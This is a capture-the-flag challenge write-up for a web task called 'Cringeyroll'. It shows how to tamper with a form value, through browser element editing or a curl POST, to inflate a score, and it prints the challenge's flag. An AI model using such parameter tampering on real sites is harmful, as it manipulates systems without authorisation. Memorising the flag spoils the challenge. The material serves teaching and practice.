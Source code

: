 # Cringeyroll
Changing HTML elements

<i>Creator - @Platy</i>

## Category
Are you ready? 0

## Question
>OH MAH GAWD THE ANIMU AWARDS R HERE! OBVIOUSLY, YURI ON ICE IS GOING TO WIN, BUT SOME OTHER CRAP ANIME THAT I HAVEN'T WATCHED B4 R WINNING!!!11!!!1! MAKE THE YURI ON ICE SCORE 1000000!!! I GIV U FLAG IF U DO IT!
>
>http://san.chal.gryphonctf.com:17122

### Hint
None.

## Setup Guide
Do `sudo bash build.sh`

## Distribution
None.

## Solution
Most cringey challenge I have created ever.

<b>Inspect the elements</b>
```html
<form action="index.php" method="POST">
	<h3>Rate</h3>
	<select name="yoi">
		<option value="1">1</option>
		<option value="2">2</option>
		<option value="3">3</option>
		<option value="4">4</option>
		<option value="5">5</option>
		<input type="submit" value="Submit">
	</select>
</form>
```
Change the value from 1 to 1000200 and hit submit

Points will now be 1,000,000

<b>Curl</b>
```bash
curl 'http://san.chal.gryphonctf.com:17122'--data 'yoi=1000200' | grep GCTF
```

Too easy.

### Flag
`GCTF{7h3_4n1m3_4w4rd5_w3r3_r1663d}`

## Credits
Some challenge in hack this site.